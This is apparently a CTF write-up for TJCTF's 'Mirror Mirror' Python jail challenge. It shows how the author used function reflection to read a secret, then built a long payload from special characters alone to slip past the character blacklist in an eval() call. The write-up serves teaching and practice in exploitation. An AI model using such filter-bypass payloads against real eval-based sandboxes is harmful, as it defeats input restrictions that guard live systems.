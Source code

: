 # Mirror Mirror (Miscellaneous, 89 solved, 100 points)

```
If you look closely, you can see a reflection.

nc problem1.tjctf.org 8004
```

Firstly we take a look onto the server and found out that there is a method get_flag(), 
which are to used, because of the greeting message.

```
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
```

Now we playing a little bit around with that function and we get an error, when we type

```python
>>> get_flag("")
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 0
    
    ^
SyntaxError: unexpected EOF while parsing
```

Ok, thats cool! 
We can put something into the eval function, which evaluate our string. 
Now it is time to find out, what are allowed in the console. 
The most functions and modules are deleted in the moment or restricted. 
But we take a look into the description and there is a hint. Use reflection!

Firstly we tried *dir()* and get:

```python
>>> dir()
['__builtins__', '__doc__', '__name__', 'get_flag']
```

Can we take a deeper look into the function with reflection? 
We tried it and yes, we can look into the variables of the *get_flag* function.

```python
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>> get_flag.func_code.co_varnames
('input', 'super_secret_string', 'each', 'val')
```

Ok, the content of the *super_secret_string* should be the string *this_is_the_super_secret_string*.
But what is with the numbers behind the secret string?
The numbers are ascii characters and we found out, that all characters from a to z and A to Z are restricted.
Also restricted characters are 0 to 9 and the special characters _ and ,.
The conclusion is, that only special character can be used, to type into the function get_flag, expect _ and ,.

But wait, how it is possible to exploit that, if we can not type a string into it?

When you know how the python interpreter works internally it is possible to find a way to do that.
We remembered on a challenge in the past from a clever guy, which used only special characters to
type strings into the console or eval function. That is really cool! ([writeup](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/))

We used the same strategy to generate strings only with special characters. 
As we know from him, we can generate every string with %c%(\<number\>) and we can also compute every number
with a lot of special characters, it is possible to write the string *this_is_the_super_secret_string* 
as input into the eval function. 

We used his brainfuckize function to generate these numbers.

```python
def brainfuckize(nb):
        if nb in [-2, -1, 0, 1]:
            return ["~({}<[])", "~([]<[])","([]<[])",  "({}<[])"][nb+2]
        if nb % 2:
            return "~%s" % brainfuckize(~nb)
        else:
            return "(%s<<({}<[]))" % brainfuckize(nb/2)
```

Now we have to generate the whole string only with special characters. 
This code does it for us:

```python
    string = 'this_is_the_super_secret_string'
    result = ""
    formatter = "`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%"
    concat = '+'

    for c in string:
        result += formatter + brainfuckize(ord(c)) + concat

    print result[:-1]
```

In general we only used the possibility that we can type *'%c'%(\<number\>)* into the console only with special characters 
and get a character.
And the translation from a number to the special characters are done with the brainfuckize function.
The code with the %\xcb and the special characters behind produce the '%c'%:

```python
`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
```

The trick to compute numbers from special characters are that 
```python
{}<[] == True
``` 
and 
```python
[]<[] == False
```

And we know that True is internally a 1 and False a 0.
The special characters ```<``` and ```~``` can be used to perfom bit operations.
With that knowledge it is possible to compute every number only with the characters. 

```python
<< ~ ( )
```

It is the same logic as you learned in mathematical logic that you can build all logic compositions within a NOT and AND.

The program produce the string *'this_is_the_super_secret_string'* only with special characters:

```python
`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%
\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xc
b'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb
'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]
::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(
~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<
[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<(
{}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({
}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[])
)]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(
(((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~
((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({
}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[
])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[]
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((~(~({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<
[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[])
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<(
{}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))
```

When you put that string into a python console you will get the string *'this_is_the_super_secret_string'*.

The final step is to put the string into the get_flag function:

```python
>>> get_flag("`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<(
{}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({
}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[
]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`
'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'
%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\x
cb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<
[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::
~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}
<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<
<({}<[]))]%((((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<
[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[
]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))
]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((
~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((
~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~
({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~(
{}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<
[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<
<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))")
tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
```

We get the flag!

Thw whole python script are in the file [exploit.py](https://github.com/Lev9L-Team/ctf/tree/master/2018-08-07_tjctf/mirror_mirror/exploit.py).